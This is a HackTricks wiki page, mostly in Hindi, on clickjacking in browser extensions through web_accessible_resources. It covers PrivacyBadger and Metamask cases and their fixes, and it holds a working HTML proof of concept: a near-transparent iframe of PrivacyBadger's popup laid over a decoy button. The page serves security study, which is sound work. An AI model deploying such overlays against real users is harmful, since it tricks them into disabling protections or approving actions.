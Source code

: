 # BrowExt - ClickJacking

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

यह पृष्ठ एक ब्राउज़र एक्सटेंशन में ClickJacking सुरक्षा दोष का दुरुपयोग करने जा रहा है।\
यदि आप नहीं जानते कि ClickJacking क्या है, तो देखें:

{% content-ref url="../clickjacking.md" %}
[clickjacking.md](../clickjacking.md)
{% endcontent-ref %}

एक्सटेंशन में फ़ाइल **`manifest.json`** होती है और उस JSON फ़ाइल में एक फ़ील्ड `web_accessible_resources` होती है। यहाँ [Chrome दस्तावेज़](https://developer.chrome.com/extensions/manifest/web\_accessible\_resources) में इसके बारे में क्या कहा गया है:

> ये संसाधन फिर एक वेबपृष्ठ में URL **`chrome-extension://[PACKAGE ID]/[PATH]`** के माध्यम से उपलब्ध होंगे, जिसे **`extension.getURL method`** के साथ उत्पन्न किया जा सकता है। अनुमति प्राप्त संसाधन उचित CORS हेडर के साथ परोसे जाते हैं, इसलिए वे XHR जैसे तंत्रों के माध्यम से उपलब्ध होते हैं।[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

एक ब्राउज़र एक्सटेंशन में **`web_accessible_resources`** केवल वेब के माध्यम से उपलब्ध नहीं होते; वे एक्सटेंशन के अंतर्निहित विशेषाधिकारों के साथ भी काम करते हैं। इसका मतलब है कि उनके पास निम्नलिखित क्षमताएँ हैं:

* एक्सटेंशन की स्थिति बदलना
* अतिरिक्त संसाधन लोड करना
* ब्राउज़र के साथ एक निश्चित हद तक बातचीत करना

हालांकि, यह सुविधा एक सुरक्षा जोखिम प्रस्तुत करती है। यदि **`web_accessible_resources`** के भीतर कोई संसाधन महत्वपूर्ण कार्यक्षमता रखता है, तो एक हमलावर संभावित रूप से इस संसाधन को एक बाहरी वेब पृष्ठ में एम्बेड कर सकता है। इस पृष्ठ पर जाने वाले अनजान उपयोगकर्ता अनजाने में इस एम्बेडेड संसाधन को सक्रिय कर सकते हैं। ऐसी सक्रियता अनपेक्षित परिणामों का कारण बन सकती है, जो एक्सटेंशन के संसाधनों की अनुमतियों और क्षमताओं पर निर्भर करती है।

## PrivacyBadger Example

एक्सटेंशन PrivacyBadger में, `skin/` निर्देशिका को `web_accessible_resources` के रूप में घोषित करने से संबंधित एक सुरक्षा दोष की पहचान की गई थी (मूल [ब्लॉग पोस्ट](https://blog.lizzie.io/clickjacking-privacy-badger.html) देखें):
```json
"web_accessible_resources": [
"skin/*",
"icons/*"
]
```
यह कॉन्फ़िगरेशन एक संभावित सुरक्षा समस्या की ओर ले गया। विशेष रूप से, `skin/popup.html` फ़ाइल, जो ब्राउज़र में PrivacyBadger आइकन के साथ इंटरैक्शन पर रेंडर होती है, को एक `iframe` के भीतर एम्बेड किया जा सकता है। इस एम्बेडिंग का उपयोग उपयोगकर्ताओं को "Disable PrivacyBadger for this Website" पर अनजाने में क्लिक करने के लिए धोखा देने के लिए किया जा सकता है। ऐसा करने से उपयोगकर्ता की गोपनीयता से समझौता होगा क्योंकि PrivacyBadger सुरक्षा को निष्क्रिय कर दिया जाएगा और संभावित रूप से उपयोगकर्ता को बढ़ी हुई ट्रैकिंग का सामना करना पड़ेगा। इस एक्सप्लॉइट का एक दृश्य प्रदर्शन [**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm) पर प्रदान किए गए ClickJacking वीडियो उदाहरण में देखा जा सकता है।

इस कमजोरियों को संबोधित करने के लिए, एक सीधा समाधान लागू किया गया: `web_accessible_resources` की सूची से `/skin/*` को हटाना। इस परिवर्तन ने यह सुनिश्चित करके जोखिम को प्रभावी ढंग से कम कर दिया कि `skin/` निर्देशिका की सामग्री को वेब-एक्सेसिबल संसाधनों के माध्यम से एक्सेस या परिवर्तित नहीं किया जा सकता।

फिक्स आसान था: **`web_accessible_resources` से `/skin/*` हटाएं**।

### PoC
```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
width: 430px;
height: 300px;
opacity: 0.01;
float: top;
position: absolute;
}

#stuff {
float: top;
position: absolute;
}

button {
float: top;
position: absolute;
top: 168px;
left: 100px;
}

</style>

<div id="stuff">
<h1>
Click the button
</h1>
<button id="button">
click me
</button>
</div>

<iframe src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```
## Metamask Example

A [**blog post about a ClickJacking in metamask can be found here**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9). इस मामले में, Metamask ने इस कमजोरी को ठीक किया जब यह जांचा कि इसे एक्सेस करने के लिए उपयोग किया गया प्रोटोकॉल **`https:`** या **`http:`** था (उदाहरण के लिए **`chrome:`** नहीं):

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

**Metamask एक्सटेंशन में एक और ClickJacking ठीक किया गया** था कि उपयोगकर्ता **Click to whitelist** कर सकते थे जब एक पृष्ठ को फ़िशिंग होने का संदेह था क्योंकि `“web_accessible_resources”: [“inpage.js”, “phishing.html”]`। चूंकि वह पृष्ठ Clickjacking के प्रति संवेदनशील था, एक हमलावर इसका दुरुपयोग कर सकता था, कुछ सामान्य दिखाकर पीड़ित को इसे व्हाइटलिस्ट करने के लिए क्लिक करने के लिए मजबूर कर सकता था, और फिर फ़िशिंग पृष्ठ पर वापस जा सकता था जिसे व्हाइटलिस्ट किया जाएगा।

## Steam Inventory Helper Example

Check the following page to check how a **XSS** in a browser extension was chained with a **ClickJacking** vulnerability:

{% content-ref url="browext-xss-example.md" %}
[browext-xss-example.md](browext-xss-example.md)
{% endcontent-ref %}

## References

* [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
* [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
